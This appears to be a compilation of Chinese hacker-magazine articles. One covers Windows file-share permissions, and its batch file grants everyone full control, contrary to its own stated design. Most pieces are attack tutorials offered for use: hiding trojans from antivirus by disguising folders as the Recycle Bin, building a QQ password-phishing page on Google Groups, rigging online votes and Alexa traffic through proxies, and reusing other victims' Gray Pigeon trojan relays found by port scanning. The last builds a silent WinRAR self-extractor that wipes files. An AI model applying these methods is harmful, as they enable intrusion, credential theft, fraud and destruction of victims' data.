这样的设置只是Windows XP高级共享的一个前提条件，很多时候我们使用高级共享是希望某个文件夹只能由某个特定的帐户按照特定的权限设置去访问，否则我们直接使用简单文件共享就可以了。通过上面的设置条件我们不难看出，Windows XP高级文件共享在很多时候都与计算机的默认帐户状态有关，最明显的就是guest帐户，那么一次高级共享的过程到底如何呢？假设主机MAC1要访问主机MAC2，那么MAC1首先会使用Guest帐户访问MAC2，如果MAC2上禁用了Guest帐户，则MAC1会使用当前登录的帐户和密码去访问MAC2，如果说MAC2上存在与MAC1上登录的相同帐户和密码，那么MAC1就可以成功访问MAC2，否则根据密码有无要么出现登录对话框，要么不能访问！这个过程其实还是基于Windows的LSA验证，在LSA验证的过程中存在着一个缺陷，就是在没有域控制器的局域网中，只要两台计算机上存在相同的帐户和密码就可以实现访问！

看上去很复杂的一个过程，其实在我们日常操作中经常会碰到，比如在网吧有时候我们需要共享一个新游戏，我们会发现，共享后我们在“运行”栏中输入 `\\ip\文件夹` 就可以成功访问了，不需要输入密码，主要原因就是因为网吧系统安装的时候都使用母盘，存在着相同的帐户和密码。很多时候由于网吧服务器权限设置不严，往往会因为共享而导致很多安全问题！

#### 三：实战—打造安全的文件共享服务器

对于文件共享的安全问题，我结合所在公司的实例进行说明。首先看建立安全文件夹的思路：

- 1、选择一台计算机，建立一个完全共享的文件夹，命名为SHARE。
- 2、在SHARE文件夹下为每一个用户建立一个文件夹，在该文件夹下再分别建立“发送”和“接收”两个文件夹。
- 3、所有者可以完全控制“接收”文件夹，但其他人只能往里面复制文件，不能查看，也就是说所有者“完全控制”，而其他用户只有“写入”权限。
- 4、所有者可以完全控制“发送”文件夹，但其他人只能查看，也就是说所有者“完全控制”，而其他用户只有“读取”权限。

有了思路，下面看具体的操作与权限设置。

##### 1、建立共享用户组

通过在文件服务器上建立本地组“shareusers”，可以通过对该组来设置权限，从而简化设置管理。在“我的电脑”上选择“管理”，选择“本地用户和组”—“组”，建立一个“shareusers”的组。

##### 2、在共享组中添加帐户

打开记事本，将下边的代码输入进去，并将文件保存为netuser.bat。

```
net user test1 123 /add&net localgroup shareusers test1 /add
net user test2 123 /add&net localgroup shareusers test2 /add
net user test3 123 /add&net localgroup shareusers test3 /add
net user test4 123 /add&net localgroup shareusers test4 /add
```

##### 3、建立根文件共享文件夹

在文件服务器的适当的磁盘位置建立一个“share”文件夹，将其设置为共享，默认状态下“everyone”具有完全控制权限，将设置改为“只读”，这样所有的用户都可以连接到这个目录，查找自己需要的内容。

##### 4、使用批处理创建目录与权限设置

打开记事本，输入以下内容，将其保存为addir.bat。

```
echo off
start md.bat test1
start md.bat test2
start md.bat test3
```

再打开记事本，输入以下内容，将其保存为md.bat。

```
md %1
md %1\share
cacls %1 /e /t /g everyone:f
cacls %1 /e /t /g everyone:f
cacls %1 /e /t /g everyone:f
cacls %1 /e /t /g everyone:f
```

然后在share文件夹下运行这两个批处理文件，如图2，查看test1文件夹下的接收文件夹权限，如图3，至此任务完成！


通过上面的实战，相信大家都已经熟悉了如何设置共享文件的安全，下面是我对共享安全的一点建议。

##### 1、默认共享关闭需注意

对于默认共享，有很多用户是通过修改注册表或使用“net share”命令来删除，个人感觉不如将server服务设置为“已禁用”。将server服务进行权限设置，可以使用process explorer，也可以使用Windows的MMC。首先在“开始”—“运行”栏中输入mmc来打开控制台，选择“文件”—“添加、删除管理单元”，点击“添加”按钮，选择“安全配置和分析”，依次确定后，鼠标右键单击新添加的“安全配置和分析”管理单元，点击弹出菜单上的“打开数据库”，在打开的对话框里指定新建的安全数据库名称，比如可以是security，然后点击“打开”按钮，在随之打开的对话框上选择系统内置的安全模板文件，鼠标右键单击“安全配置和分析”管理单元，单击弹出菜单上的“立即分析计算机”，在弹出的对话框上点击“确定”，系统开始分析当前的安全配置，分析结束后，进入如图4所示的界面，在“系统服务”中，右键点击“server”服务，选择“编辑安全设置”，就可以对其设置权限了，如图5。很多网管在制作系统母盘的时候都往往从系统中删除了这个服务，但是很多时候他们的服务器上却可以轻松的使用 `net share c$=c:\` 共享出来，我们需要注意这样的细节！


##### 2、高级共享技巧性很强

几乎每一个公司、学校的局域网中都离不开共享（只要有网络的），这时候作为一个公司的网络管理人员需要抓住高级共享的某些技巧。

- （1）为了方便用户管理，注意建立共享帐户工作组，如上所述。当然如果建立域控制器会更方便的。
- （2）共享文件的权限设置是关键的一步，对于共享文件说白了就是一个独立文件，独立文件的权限设置自然是使用cacls命令，主要原因是可以实现批量操作。
- （3）注意共享帐户工作组在服务器上的权限，很多网吧一开机都会从服务器下面运行很多管理类工具，这时候需要注意将客户机登录帐户的权限设置为“只读”，以防止恶意修改，带来不必要的麻烦！


### 针对未知U盘病毒 最安全的打开方法

梁天爽

前几天，从同学的U盘上拷了些东西到自己的电脑上，然后使用公认的安全方法“鼠标右键 → 打开”打开了U盘，这样可以防止木马随着双击盘符而自动启动，而且我的电脑上还安装了360安全卫士，插入U盘时还提示了一句“360安全卫士正在对您的U盘进行保护”，如图1。但是，出乎我意料的是，刚一点右键，鼠标和键盘就失灵了，接着就看到卡巴斯基关闭保护并退出，360安全卫士也消失了，情况不妙，看来碰到新出的未知U盘病毒了，连一直使用的安全打开方法也失灵了，通过跟病毒的势力斗争我发现了一种新的打开U盘的安全方法，不敢私自拿出来和小菜们分享！


首先在组策略中关闭自动运行功能，否则只要一插上U盘，就会自动打开U盘使病毒传播了。插入U盘后在“开始”—“运行”栏中输入“CMD”，打开命令提示符，如图2，然后输入“G:”（G为U盘的盘符，此命令为进入U盘所在盘符）回车，接着输入“start .”（注意start后面有一个点“.”，此命令为打开U盘），如图3。这种方法对所有的盘符都管用。为了验证打开方法的安全性我又试验了几次，因为这个未知的U盘病毒，哪怕是用户使用“资源管理器”打开U盘，也会被激活，为确保这个方法真正管用，我搞定病毒后又把带毒的U盘重新插到电脑上，使用上面的方法打开U盘，果然病毒还在，但是没有被激活。因为它是一种非常规的打开方式，在病毒的激活代码中并没有涉及到其中的内容，因此也就证明了这种打开U盘方法的安全性。

最后提醒大家，新的U盘病毒越来越先进了，所以打开方法也要与时俱进，这样才能更好更有效的避免电脑中招！

### 文件的另类隐藏

杨税令

#### 一、前言

话说暑假期间，闲着没事就到一家软件公司上班，公司为每位员工都配备了一台电脑，当然是为了方便我们写程序，可公司里也不是时时都有项目任务的，所以大多时候我们都在使用电脑聊天、下载学习资料等，但是公司的制度是不允许这样做的，于是我们每次玩的时候都偷偷摸摸，资料下载后也立刻拷贝到U盘上。


#### 二、奇怪图标

某一日，电脑重启后桌面上的图标发生了变化，其中“天天向上”应该是与其它三个文件夹一样的图标，但现在却变成了与“回收站”一样的图标，如图1，我双击打开后，发现它与“回收站”的窗口是一模一样的，而我以前存放在文件夹里的东西却都不见了，如图2。我分别使用右键单击了“回收站”和“天天向上”，发现它们的弹出菜单并不相同，如图3，图4，我猜想这个文件夹是否被关联成了回收站，如果是的话那么在注册表里应该会有相应的注册键值，于是我便打开了注册表进行搜索，结果注册表里什么都没有找到。由于我电脑中安装的是Windows XP和Vista双系统，所以我便切换到了Windows XP系统下，结果桌面图标的显示情况还是一样的（我的Vista和Windows XP共用一个桌面文件夹），所以我便推测应该是有某个程序对文件夹本身进行了操作，而与系统的关联情况无关。


#### 三、真相大白

知道了是文件夹本身出的问题，我便开始针对文件夹本身进行相关的测试。既然在窗口模式下打开的是回收站，那么在命令提示符下打开又会是怎样呢？于是我打开CMD命令提示符进入了“天天向上”这个目录，结果令我很欣喜，原本存放在这个文件夹里的文件全部都还在，如图5。


突然我想起了desktop.ini这个文件，它是用于个性化文件夹的信息文件，于是便执行 `attrib -a -s -h e:\系统\desktop\天天向上\*.*` 命令把它显示了出来（我桌面文件夹路径是 `e:\系统\desktop`，通过修改注册表 `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Session Manager` 路径下的desktop键值实现），再一次查看目录，果然多出了这个文件，如图6，立刻执行 `type e:\系统\desktop\天天向上\desktop.ini` 命令查看它的内容，如图7，其中“CLSID={645FF040-5081-101B-9F08-00AA002F954E}”便是定义文件夹的所属组件类，其中的数字便是“回收站”的组件类代码，这下问题终于清楚了，但是


其中的“如果你害怕黑暗现在回头还来得及”我怎么都没想明白是做什么用的，在看到“为您设置了会员炫铃”这个熟悉的字眼后，我突然想起来，出问题的那天我正在满负荷测试一个数据库程序，刚好有个好友上线，在弹会员炫铃的时候把电脑卡死机了，我想应该就是那一刻某一个程序出错而把这个文件给改了。执行 `del e:\系统\desktop\天天向上\desktop.ini /f /q` 命令删除该文件，重新刷新一下桌面后便恢复正常了，如图8。


#### 四、巧妙利用

这事引起了我的思考，既然这个文件夹被系统认为是回收站，那么杀毒软件会不会检查它下面的文件呢？于是我立刻找了一个会被杀毒软件查杀的病毒，如图9，使用 `copy *.exe e:\系统\desktop\天天向上` 命令把它拷贝到“天天向上”（回收站图标）文件夹中，然后使用杀毒软件查杀整个“desktop”目录，结果杀毒软件居然毫无反应，如图10！这样的话，我们便把自己的黑客工具和各类文件都存放到这个特殊的文件夹下，除了不会轻易被人发现外，连杀毒软件也不会过问。以后我们上传到肉鸡或服务器的木马也可以参考这个方法，把它存放在一个新目录下，然后通过 `echo [.ShellClassInfo]>desktop.ini` 和 `echo CLSID={645FF040-5081-101B-9F08-00AA002F954E}>>desktop.ini` 这两句命令，把该目录伪装成回收站，杀毒软件就不会过问了，也省去了我们经常制作免杀的麻烦，同时也避免了被发现的可能。


#### 五、总结

我后来继续进行测试，发现除了可以伪装成回收站外，还可以伪装成系统中的任何一个组件的图标，其方法就是把上面提到的CLSID值更换为相应组件的CLSID值，比如我的电脑是20D04FE0-3AEA-1069-A2D8-08002B30309D、网上邻居是208D2C60-3AEA-1069-A2D7-08002B30309D、控制面板是21EC2020-3AEA-1069-A2DD-08002B30309D，这些CLSID值在网上都可以查到，这里就不一一列举了。

### 网站投票大家刷

梁天爽


奥运会圆满的举办了，各大商家也纷纷借着奥运盛会宣传造势，网上的活动越来越多，我就参加了一个阿迪达斯举办的大摆助威阵活动，就是使用自己的3D头像，结合其他网友一起组队，拼出一幅为中国加油的拼图，每个队伍共有14人。奖品是阿迪达斯中国队奥运领奖服和阿迪达斯跑鞋，每次看到奥运领奖台上中国运动员穿着的奥运领奖服，都会感觉比其他国家的领奖服要好看，心里也非常想要一件，正好赶上了这个活动，前十名的队伍就会得到这个大奖，如图1。


所有填充完成的拼图，都会显示在投票页面里，网友可根据拼图的质量进行投票，每个网友每天有20个投票的机会。说是按照质量投票，其实又有几个是自愿自主投的票？基本都是拉上亲朋好友给投的票。所以，我们也通过技术手段来赢得胜利。

先使用自己的IP投了20票，然后弹出了提示“每天最多投20票”，


图2


图3


图4


图5

如图2，现在就要想办法换个IP来继续投票了。大家比较熟悉的一个突破IP限制的方法就是断开网络连接后再重新连接，可是本人网络是小区共享光纤，这样的操作没有用，要主机断开网络重新连接才能有效。所以我就想到了使用代理的方法来在内网中刷票。

我从网上找了几个WEB代理，可惜都是只能打开网页但一点投票就无法找到网页了，看来还得请出我们的“代理超人”。打开代理超人，如图3，选择“搜索”下的“搜索代理”，如图4，然后就是

慢慢等待代理超人自动搜索代理服务器，在下面会列出搜索的进度并同时不断的列出代理列表，如图 5。

我们先选择第一个代理，点击右键，选择“启用代理”，如图 6。回到刚才投票的网页，刷新一下页面，然后点击投票，我们高兴的看到，投票成功了，如图 7。这样，我们又可以使用这个代理 IP 投 20 票了。投完这 20 票后，我看了一下代理超人，共有 270 个代理，再换一个代理，继续来投票，这样一天下来就可以刷：270×20=5400 票了，哈哈，现在最高的队伍才 2000 多票，所以我刷到 5000 票就差不多了，省的刷个几十万票引起阿迪达斯的怀疑。


不过，手动换 IP 刷票是不是很累呢？我们的最终目的是无人值守的全自动刷票，所以后面还要做一些工作。估算一下 20 票的时间，一票是 3 秒，那么 20 票就是 60 秒，考虑到代理网速不稳定的因素，我们取 50 秒刷 20 票这个数值。打开代理超人，选择“使用”->“定时切换”->“开始”，然后设置定时 50 秒，这样每过 50 秒就会自动更换代理了，如图 8。为了避免网速快的时候在 50 秒之内已经刷完 20 票而导致无法投票，所以我们更换时间要计算的稍微短一点，这样无非是一个代理 IP 没投完 20 票而浪费了一点，但是一共有 270 个代理呢，怎么算也够用了，这样就避免了因不能投票而耽误刷票的速度。


设置好代理超人的自动更换后，我们就可以安心的把代理超人放到托盘区去刷票了，打开网页，点上投票按钮，然后一直按住回车，就会不断出现投票成功的提示，回车确认之后继续投票，投票频率不要太高，不然会导致无法投票的情况出现，最好是投一票隔一秒钟后再投。这样反复循环，每个 IP 大概 20 票的时候代理就会自动更换，然后按一下 F5 刷新网页，继续重复以上的动作，这样是不是也很累呢？需要一个人浪费时间一直看着它，尽管省去了换 IP 的麻烦，但还是要手动投票。既然我们连工作流程都分析出来了，那就不用去担心手动的麻烦，编个程序好了。点击投票按钮 -> 弹出投票成功 -> 按下回车确定投票成功 -> 等待一秒钟后继续点击投票 -> 确认投票成功 -> 循环 20 次 -> 按下 F5 刷新网页 -> 等待 7 秒钟网页刷新时间 -> 继续重复投票，我们可以根据以上步骤编写一个脚本，对于这种简单的程序推荐使用按键精灵，即使是免费版本也足够使用了，编程过程十分简单，用鼠标键盘操作流程录制一个循环然后设定好启动和结束热键就可以了，这里就不浪费宝贵的版面去具体介绍了。

对于宽带个人用户来讲，我还是推荐使用这种不换真实 IP 而代理刷票的方法，因为断开连接再重新开启很费时间，不利于批量操作，还是使用代理的方法比较简单快捷，而且全程可以无人值守自动刷票。设置完这一切，我们就可以轻松的去观看奥运会了。现在无论是腾讯还是其他网站都有许多类似投票选秀的活动，这种活动本身的质量要求不是很高，关键是人气，总麻烦朋友也不是个事，票数还有限，不如使用这种方法去投个几万票，得个大奖什么的都很方便。最后说一下，目前网上一大堆卖刷票的组织，百度一搜就看见好多，平均 2 分钱一票，支付宝 2 块钱一结帐。全自动投票方法我是教给大家了，有兴趣的去赚赚零花钱也不错哟。

（本文所涉及到的代理超人、按键精灵已收录到光盘中）

### QQ 钓鱼？从 GOOGLE 说起

无敌小龙

都有“联系”了？看来 GOOGLE 的本土工作做得还真不错，深入组织，深入人民群众啊！根本没有想到这会是个钓鱼页面，能把我这样高安全意识的人骗到，还真不容易呀（我以前可是从来没信过免费送 QB 的，呵呵）！


我毫不犹豫的点击了“点击领取 QB”这个链接，来到了“http://ses.mo.cn/qq.com/login2.asp”，如图 2。居然要求我输入 QQ 号码和密码进行登录，这引起了我的警觉，感觉这个页面有可能是个利用 GOOGLE 来钓鱼的页面。


我二话不说，就来到了“http://groups.google.com/”去看看这到底是个什么样的网页服务，打开后才知道这是 GOOGLE 提供的论坛形式的网页服务。点击其中的“创建论坛”，就可以创建一个讨论组了，如图 3。既然如此，那我们也来创建一个 GOOGLE 的欺骗网页吧！


点击“创建论坛”后，就来到了“https://www.google.com/groups/signin?login_required=1&passive=true&done=http%3A%2F%2Fgroups.google.com%2Fgroups%2Fcreate%3Flink%3Dgcp&cd=US&hl=en”，如图 4。按照图中的填写方法填写完毕后，就可以点击提交按钮了。


此时可以看到已经创建了一个主页，其中有“讨论”、“成员”、“页面”、“文件”、“设置”页面，把它们都删除掉，也就是点击后面的“X”按钮，不然的话这些链接等会儿就会在前台显示出来，也就无法显示出刚才那个钓鱼页面的形式了，如图 5。


现在来到刚才的那个钓鱼网页，在图片上右键，可以得到它的网络地址，如图 6。分别得到了两个地址，如下：http://img1.qq.com/news/pics/9499/9499744.gif 和 http://7tq.cn/qb.jpg。来到主页中，点击其中的“edit welcome message”链接，也就是编辑欢迎语，来到编辑页面，如图 7。此时选择“IMAGE”按钮，在弹出的“ADD AN IMAGE”（增加图像）窗口中不要选择“UPLOAD IMAGES”（上传图片），选择“WEB ADDRESS”（网络地址），也就是使用一个图片地址来显示地址，这样做的好处就在于，如果选择上传图片，那么会在你的主页显示图片文件的下载链接，这样的话，钓鱼页面就不完美了。


按照同样的方法，点击“LINK”按钮，可以添加自己的钓鱼页面，也就是把自己收取 QQ 账户和密码的页面链接到这里，如图 8。


现在就可以访问“http://groups.google.com/group/xiaolong_test”了，可以看到已经和刚才的钓鱼网页差不多了。不过为了模仿的更逼真，我们还要修改一些地方，点击“GROUP SETTING”（组设置）链接，如图 9，可以设置它的首页颜色，这里我们选择设置为红色。

最后我们来浏览一下“http://groups.google.com/group/xiaolong_test”，可以看到一个使用 GOOGLE 的钓鱼网页已经完成了，把“http://groups.google.com/group/xiaolong_test”发给“鱼儿”们，谁又能猜测出这是个欺骗页面呢，它可是完完全全的 GOOGLE 链接呀，如图 10。


### 零工具反彩虹QQ探隐身

随着 QQ 使用的普及，和 QQ 相关的软件也是越来越多，彩虹 QQ 显 IP 版就是一款很不错的软件，它可以显示 QQ 隐身好友和 IP 地址，这是非常好的功能，但是有时候我们并不想让别人看到我们正在隐身，那该怎么办呢？现在就给大家介绍一种不使用任何工具反彩虹 QQ 探隐身的方法。

首先登录 QQ，我就使用我自己的 QQ 大号和小号进行试验了，在小号的状态中选择隐身，然后在大号中把鼠标光标移动到小号的地方，如图 1，可以看到他是在隐身状态。接下来就是我们发挥的时候了，双击屏幕右下角的时间，打开日期和时间属性窗口，如图 2。我们把日期时间改为其它的，比如我把时间改为了 2020 年 12 月，然后点击确定，现在系统时间就变成 2020 年的 12 月 8 日了。此时我们在小号的状态栏中选择“我在线上”，然后再选择“隐身”，为了确保成功率，我重复进行了 5 次以上的动作。现在再来看，成功了，出现了上次登录的地址和“对方不在线”的提示，如图 3。


### 一个月让网站挺进Alexa排名前10万

无敌小龙

随着在网上架设网站的难度和费用的降低，许多小菜都拥有了属于自己的个人小站，有了自己的网站自然是希望它们的流量越多越好，ALEXA 排名越高越好，可是网站刚建成没多久，没有多少人知道，访问量实在是有限，我们如何才能使自己的个人小站快速的提升排名，挤进 ALEXA 排名前 10 万呢？答案就是刷流量！

刷流量有很多种方法，最适合小菜的就是使用代理服务器来刷，因为这样刷出来的流量是完全真实的，不会被 ALEXA 排名机构认为是作弊。要使用代理服务器来刷流量，首先就是要收集代理服务器地址，我推荐使用代理超人来收集。运行代理超人，选择“搜索”菜单下的“搜索代理”，如图 1。等到代理超人搜索完全部代理地址后，就可以选择“管理”菜单下的“数据导出”了，如图 2。点击“导出”按钮，程序就会将这些代理服务器地址自动保存为 PROXY.TXT 文件。接下来我们就要验证这些代理服务器是否可用，因为有很多代理服务器不是需要密码，就是连接速度太慢了，对于这样的代理服务器我们可以省略掉。


图 1

打开代理猎手，之所以选择使用代理猎手，是因为它的代理检测速度非常快。点击“导入结果”按钮，选择刚才保存的 PROXY.TXT 文件，如图 3。然后点击“验证全部”，不一会儿就会得到检测结果了，检测完毕后再点击“精简结果”，在弹出的“精简搜索结果”对话框中选择除了“Free”之外的所有选项，也就是去掉所有不合格的代理地址，如图 4。这样我们就得到很多不错的代理地址列表了，最后使用代理猎手的“导出结果”功能把这些精简出的结果保存为 PROXY2.TXT 文件。


图 2

为了能够显示本次刷流量的真实性，我选择使用百度的 BLOG 来进行演示，在刷之前可以看到当前的今日访问量为 17（我是在 24 点之后进行的测试），如图 5。打开我编写的一款刷流量暴强工具，点击“载入列表”按钮，选择刚才保存的 PROXY2.TXT 文件，载入那些精简出的代理服务器地址，然后在文本框中输入要刷的网站地址，最后点击“测试”按钮，就可以看到程序开始刷流量了。该程序的原理就是通过多线程的方式连接代理服务器，然后让代理服务器分别去访问目标网站，这样就会刷出很多真实的流量了，如图 6。我们再来看看今日的流量，已经变成 506 了，如图 7。


图 3


图 4


图 5


我查看了一下系统的当前时间，为夜晚 1:29 分，也就是刷一个小时，流量就有 506 了。照这样下去一个小时就有 500 多的流量，一天 24 小时，那差不多就有 12000 的流量了。而日访问量 8000 的独立 IP 地址的网站，几乎就可以进入 ALEXA 排名的前 10 万，因此 12000 的流量足以让你挺进前 10 万的排名了。我们来到 http://www.123cha.com，查一下 hack58.com 的 ALEXA 排名，可以看到是 12 万名，如图 8。但是，查看它的流量，却是在 6000 - 8000 之间，如图 9。也就是说只要流量超过 1 万独立 IP，就可以轻易挺进前 10 万名了。


该网站最近一周和一月日均IP访问量和PV浏览量估算值

| 近一周日均IP量 | 近一周日均PV量 | 近一月日均IP量 | 近一月日均PV量 |
|---|---|---|---|
| 530400 | 2758080 | 413400 | 1984320 |

图 9

我再来介绍一款专业级的刷排名工具“ALEXA排名大师”，如图 10。

首先把代理服务器的 IP 地址填写到“代理设置”文本框中。在刷之前来看看我的永硕网络硬盘“http://pespin.ys168.com/”，可以看到访问量是 627，在线 1 人，也就是我自己，如图 11。我们回到 ALEXA 排名大师的“访问设置”中，在要提升 ALEXA 排名的网址中输入 pespin.ys168.com，在“间隔时间”中填写 2，也就是每两秒钟刷一次，“循环次数”填写 2，也就是使用所有的代理服务器列表循环刷两次，最后点击“开始”按钮就开始刷流量了，如图 12。等待一段时间后，我们再次来到 pespin.ys168.com 中，可以看到当前在线有 40 人，刷流量的效果还是非常棒的，如图 13。


本文介绍了两种刷流量的方法，大家只要找到足够多的代理服务器，然后进行一下工具的组合，就一定可以使自己网站的流量和 Alexa 排名迅速提升。（文章中涉及到的暴刷流量工具、Alexa 排名大师 2008，已经收录在光盘中）

### 免费电话在线打

吾有型

前几天 QQ 上的一位好友发给了我一个可以在线打免费电话的网站，我试了下感觉非常不错，今天就特意写出来与小菜们分享！

首先我们登录它的官方网站 http://evaphone.com/，如图 1，网站界面很简洁，使用也非常简单，不需要下载任何软件，也不需要注册，支持直接在线拨打，不过前提是你有耳麦和话筒才行。


图 1

首先我们在左侧的框中选择要拨打电话的国家，当然你也可以直接在电话框中输入国家的代码。


图 2

拨打的格式是国家代码+电话号码或手机号码（注意区号前和手机号前都不带 0），比如我们要拨打电话 8856XXXX，那么要输入的完整号码就是 86108856XXXX（86 就是中国的国家代码，10 也就是 010，代表的是该电话号码的区号），如果我们要拨打手机 15026879522 的话，要输入的完整号码就是 8615026879522。最后点击右边那个绿色电话的按钮就可以拨打了，如图 2，非常简单吧。

不过电话拨通前会先插播一段 10 秒钟的英文广告，然后就可以通话了。最后需要提醒大家的是，evaphone 每天每个 IP 只能拨打两个电话，并且通话的时间要看运营商的资费，对于中国用户来讲一次只能拨打两分钟，这里我教大家一个小方法就是利用代理服务器来拨打电话，这样就可以拨打多次了。还在等什么，快快拨打免费电话吧！

### 又一款免费的 VPN — relakks

txcbg

记得在今年第 5 期的黑客 X 档案上曾经介绍过一个英国的免费 VPN —— Linkideo，速度很不错，我很喜欢它，也经常使用，可是前几天登录的时候却总是提示用户名和密码错误，我记得自己没有更改密码啊，到它的官方网站一看才知道，原来它已经不提供免费的 VPN 了，要使用就必须交钱，看来我只好自己寻找其它的免费 VPN 了。

寻找过免费 VPN 的朋友应该都知道，现在免费的 VPN 实在是太难找了，好友光影告诉我一个能用的免费 VPN —— relakks，虽然它的速度不如 Linkideo 快，但是由于 Linkideo 不能免费使用了，因此我们也只能退而求其次了。我试了一下 relakks，感觉用它浏览网页还是可以的，但用它下载东西的话平均不到 10K/s 的速度会让人发疯的。下边我就详细地来教大家如何申请和使用。

relakks 是由一个瑞典的 VPN 服务商提供的，每一个注册的用户都可以免费试用 30 天，当一个用户试用期满后还可以再次申请一个用户继续免费使用 30 天，如此循环就可以无限期免费使用了。要想使用 relakks 的话必须先申请一个用户，打开 relakks 的官方网站 https://www.relakks.com/，发现网页中的文字几乎全不认识，大家别急，因为这些都是瑞典文，我们通过网页左上角的语言选择框把语言更换成英文的就可以看懂了，如图 1，更换成英文后，网页看着就舒服多了，如图 2。


图 1


图 2

点击 “SIGN UP” 按钮就来到了注册用户的页面，如图 3。“Name” 是你的名字，可以随便填写（不能是中文）；“User name”

是你连接 VPN 时要用到的用户名，可以随便填写，但必须要记住；“E-mail address”是电子邮件地址，经过我的测试，注册relakks 的用户是不需要电子邮件验证的，也就是说你随便输入一个电子邮件地址就能注册成功；“Password”和“Repeat password”就是密码和重复输入密码，这里要注意的是它要求密码长度必须大于等于 8 位，否则将注册不成功。我填写的用户名是 hackerxfiles，密码是12345678，全部填写完毕后点“Submit”按钮进行提交，如果没有出错的话就会出现注册成功的页面了，如图 4。页面中会显示你注册的用户名和密码，大家一定要记住，在页面下方还给出了试用期结束的时间，我们要连接 VPN，还需要知道 VPN 服务器的域名或 IP 地址，这个可以在网站的“问答”中找到，我找到的它所使用的域名为 pptp.relakks.com，大家直接使用就可以了。


有了 VPN 的用户名、密码和连接服务器的域名，我们就可以建立 VPN 并连接了，我以 Windows XP 系统为例，打开网上邻居，选择“查看网络连接”，然后点击“创建一个新的连接”，在弹出的页面中点击下一步，选择“连接到我的工作场所的网络”，然后选择“虚拟专用网络连接”，在公司名中随便输入一个名字（比如我输入的是 hackerxfiles 投稿演示）。点击下一步后选择“不拨初始连接”，在接下来的主机名或 IP 地址中输入 pptp.relakks.com 并点击下一步，勾选上“在我的桌面上添加一个到此连接的快捷方式”后就可以点击“完成”了，这时就会自动弹出“连接 hackerxfiles 投稿演示”的窗口，直接输入你的用户名和密码，点击“连接”后当出现“在网络上注册您的计算机成功”时你的 VPN 就已经连接上了，我们打开 http://www.ip138.com/看看，已经是瑞典的 IP 地址了，如图 5。


不过我在使用 relakks 的过程中发现了两个小问题：

- 有时候连接不上，过一段时间后再连接就好了，另外根据我使用了几天的经验，在上午的时候几乎全都能连接上，但是一到晚上就会很难连接上了。
- 在本机上连接一切正常，可是到了虚拟机中却怎么也连接不上（在虚拟机中把上网方式更换成桥接后又可以连接成功，但本机却不上网了）。

对于以上的两点还希望大家注意一下，尽管存在一些小问题，但 relakks 作为一款免费的 VPN 还是很值得使用的，希望这个 VPN 在叉子们练手时能起到隐藏和保护自己的作用。

### 灰鸽子内网上线新方法

3 少

关于木马的内网上线，是小菜们非常感兴趣的一个话题，我目前所使用的一个内网上线方法，还是我的好友“鱼子头”在我刚入门时教我的，那时候我经常去网吧上网，而且也刚学会配置木马，因为没有自己的空间，所以只能使用 3322 域名上线的方式，可是在内网中我又没有外网可以直接连接的 IP 地址，按照网上一些教程中所介绍的上线方法去做也都失败了（我们这儿的网管普遍比较牛），多亏好友“鱼子头”相救，介绍了一种非常实用的上线方法，此种方法不伤人、不害己，绝对是小菜们大战网吧的必备技术，而用到的工具嘛，使用 s.exe 扫描器就可以。

大家都知道，灰鸽子中有一个自带的内网端口映射工具，而它默认使用的为 9999 端口，如图 1，因此大部分开启这个端口的电脑都有可能是被别人入侵后面留下来用于内网上线的，我们就正好可以借用一下。先使用 s.exe 扫描开启 9999 端口的电脑，其执行命令格式为“s tcp 开始 IP 结束 IP 端口 线程”，比如我们执行 s tcp 60.10.0.0 60.15.0.0 9999 100，等待一会儿就会扫描出许多开启 9999 端口的电脑了，如图 2。


打开灰鸽子，选择“工具”下的“内网映射”，在“VPort 服务端 IP”中填写扫描到的 IP 地址，“控制端口”当然填写 9999 了，点击后边的“连接”按钮，在最下方就会提示“连接成功！可以进行端口映射了！”，如图 3。我们再将要映射的端口填写到相应的地方，然后点击后边的“映射”按钮，映射按钮就会变成灰色不可选状态了，如图 4。


来到 3322.org，登录后在动态域名处进行修改 IP 地址，也就是修改成我们映射时使用的 IP 地址，最后点击“确定”完成修改，如图 5。只要注意一些细节肉鸡就上线了，所谓的细节就是指映射的端口是否相同，如图 6。不过使用这种上线方法有个弊端，就是自己不使用了，肉鸡仍然会指向那个 IP 地址，这个我们可以在配置木马的时候设置一个复杂的密码，这样就不怕别人来使用了。（文章中涉及到的 s.exe 已经收录到光盘中）


### 一分钟玩转 WinRAR 制作破坏系统程序

王水

最近我安装了WinRAR 的 3.71 版本，在研究新旧版本的 WinRAR 有何区别时，意外的发现经过特定设置而创建的自解压缩包（该压缩包不含有任何木马或病毒）可以自动删除解压缩者的硬盘文件，甚至达到破坏系统的效果。

具体的操作步骤如下：首先右键点击要压缩的文件，在右键菜单中选择“添加到压缩文件(A) ...”，在弹出的“压缩文件名和参数”对话框中勾选“创建自解压格式压缩文件”，如图 1。然后选择“高级”下的“自解压选项”，如图 2，在弹出的“高级自解压选项”中选择“常规”，在这里可以设置解压路径。实际上在本文中，解压路径的设置并不是必须的，但是为了让读者能够看到实际的效果，并且让读者在进行实验时不会遭到意外的损失，所以才设置了解压路径。在“解压路径”中输入“c:\test\”，而下面的“保存并恢复路径”选项千万不要选中，否则可能会出现意外的情况，如图 3。

接下来就是关键了，选择“高级”，在“目标文件夹中要删除的文件”中输入“*.*”，如图 4，然后连续按两次确定按钮，完成自解压缩包的创建。文件创建好了，接下来我们测试一下效果吧。首先在 C 盘根目录下建立一个名为 test 的文件夹，然后随便在 test 文件夹下创建一些子文件夹和文件。运行刚才创建的自解压缩程序，点击“安装”，此时再去看 C:\test 文件夹下的内容，我们会发现只剩下了当初被压缩的文件，而刚才创建的其它文件夹和文件全部消失了，这是不是很可怕呀，在没有任何提示的情况下，特定目录下的所有文件都被删除了，假如我们把解压缩目录设为 C 盘或其它盘符的根目录那又会怎么样呢？电脑使用者无疑会遭受巨大的损失。


试想一下，我们从网上下载了一个游戏，运行安装程序后，却突然发现硬盘某个分区已经变的空空如也。也许会有读者要说：我不会把解压缩的目标文件夹改为 C 盘或者其它分区的根目录的，另选一个空文件夹来解压缩，不就没事了吗？但是如果在高级自解压选项的“模式”下，将“安静模式”设为“全部隐藏”，“覆盖方式”设置为“覆盖所有文件”，那么只要双击运行自解压程序就会立即执行删除操作，根本就没有机会让你选择目标路径的，同时该程序不含有任何病毒或木马，也就是说常规的查杀软件根本不会报警。那难道就没有解决的办法吗？其实想要解决这种问题也很简单，右击点击自解压文件，选择属性，查看注释，我们会发现注释中含有类似“Delete=*.*”的命令，如图 5。

